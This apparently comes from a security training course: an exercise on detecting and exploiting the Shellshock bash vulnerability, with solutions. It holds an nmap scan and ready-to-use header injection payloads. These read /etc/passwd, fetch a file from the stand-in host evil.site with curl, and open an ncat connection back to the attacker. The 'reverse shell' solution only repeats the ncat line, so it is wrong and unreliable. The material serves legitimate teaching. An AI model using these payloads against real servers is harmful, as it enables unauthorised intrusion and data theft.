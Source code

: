 ## Studying Shellshock

In this activity, you will learn how to: 

- Identify if a server is vulnerable to Shellshock.
- Write custom Shellshock payloads.
- Articulate which HTTP headers can serve as command injection points.

### Instructions

- Find a tool that determines if a server is vulnerable to Shellshock.
    
    **Hint**: Research Nmap scripts: <https://nmap.org/nsedoc/>.
    
    > **Solution**: Use `http-shellshock`. See below for example usage.
    > ```bash
    > $ nmap -sV -p- --script http-shellshock 172.16.0.2
    > 
    >   PORT   STATE SERVICE REASON
    >   80/tcp open  http    syn-ack
    >   http-shellshock:
    >     VULNERABLE:
    >     HTTP Shellshock vulnerability
    >       State: VULNERABLE (Exploitable)
    >       IDs:  CVE:CVE-2014-6271
    >         This web application might be affected by the vulnerability known as Shellshock. It seems the server is executing commands injected via malicious HTTP headers.
    > 
    >     |Disclosure date: 2014-09-24
    >     |References:
    >      http://www.openwall.com/lists/oss-security/2014/09/24/10
    >      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
    >      http://seclists.org/oss-sec/2014/q3/685
    >      http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
    > ```

- Write Shellshock payloads that:
    - Read `/etc/passwd`
    - Use `curl` to download a malicious file from `http://evil.site/mal.php`
    - Open an Ncat connection to your port 4444.
    - Send a reverse shell to your port 4444.

    **Solution**
    >   - `User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'`
    >   - `User-Agent: () { :;}; /bin/bash -c 'cd /tmp && curl -O http://evil.site/mal.php'`
    >   - `User-Agent: () { :;}; /bin/bash -c 'ncat 192.168.0.5 4444'`
    >   - `User-Agent: () { :;}; /bin/bash -c 'ncat 192.168.0.5 4444'`
    
- Refer to the following Wikipedia article on CGI. Scroll down to **Request specific variables**: <https://en.wikipedia.org/wiki/Common_Gateway_Interface#Example>
    
    - The examples demonstrated command injection via the `User-Agent` header. Which other headers are vulnerable?

    **Solution**: Any other header loaded by the environment is vulnerable.  This includes all of the standard header variables, such as `HTTP_HOST`, `HTTP_COOKIE`, `HTTP_ACCEPT`, etc., as well as variables like `SCRIPT_PROTOCOL` (via HTTP version injection).
